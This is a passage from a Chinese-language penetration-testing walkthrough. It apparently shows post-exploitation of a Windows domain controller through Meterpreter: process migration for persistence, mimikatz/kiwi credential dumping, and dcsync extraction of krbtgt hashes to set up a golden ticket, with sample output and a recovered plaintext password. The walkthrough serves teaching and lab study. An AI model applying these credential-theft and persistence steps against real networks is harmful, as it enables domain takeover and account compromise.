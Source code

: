 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPia5Is23Qz3zojBoBkZEtfXRfjBoBloE2FVQopnZaOsBniar7qibA5d0WVA/640?wx_fmt=png)

上线成功，我们先迁移进程到服务：（维持权限）

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaeLiaxtHYzk6dySX0qK6W8y4eSa61mrrlxSu77vsuXDrtq5wfKwibW6aw/640?wx_fmt=png)

之后使用模块抓取 dc 的密码 hash:

```
wdigest
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaVcR3G0WmjR1pheaLPU4vI9LfV3X8Zr0PTHnQsVZk1LP88fjq6Bpo7A/640?wx_fmt=png)

加载 mimikatz 抓取域控明文密码：

```
load mimikatz
load kiwi
kerberos\_ticket\_purge
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiazicAVWcCvfwwiaexRZuAcUMcDlOrAaCWrzISHkJibPcCkoamSTib37h2QA/640?wx_fmt=png)

密码是：Admin12345，到这一步我们的渗透已经完成 %99 了！

只要我们愿意，我们就可以登陆它的远程桌面（一般别用，你们懂的）

* * *

**结尾 - 黄金票据**

最后如果对方改密码了，我们可以通过创建一个黄金票据来进行权限维持：

我们先回到 web 的 session，然后加载 mimikatz 和 kimi 吧 web 内存中的票据清除：

```
wmic useraccount where  get sid
S-1-5-21-2005268815-658469957-1189185684-502
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaEpFhhGZHUjicTvsGB27HlWA70QsBr6wPn4V4VXMm4TVaYBc0XOyWicyQ/640?wx_fmt=png)

这样就不能访问到目标 dc 了！

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaLsncm5iayPlk2d9YdwxCljt70OicibEKfr2icibuKUBicveWk40WxUPxHgQw/640?wx_fmt=png)

黄金票据需要获取域名称、域的 sid、域控的 Krbtgt 账号的密码 hash 值，任意域用户！  

```
meterpreter > dcsync\_ntlm krbtgt
\[+\] Account   : krbtgt
\[+\] NTLM Hash : 6f60ace6accbcb76078ccc0312174e98
\[+\] LM Hash   : 36588bd35fd1fe85ec5fd73a1ca6805b
\[+\] SID       : S-1-5-21-2005268815-658469957-1189185684-502
\[+\] RID       : 502
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaWPnNRFejdicdNadHDRSd2OiaAbDAoP0OXgdqbQDQ1VSI7bAHlPjNvr2g/640?wx_fmt=png)
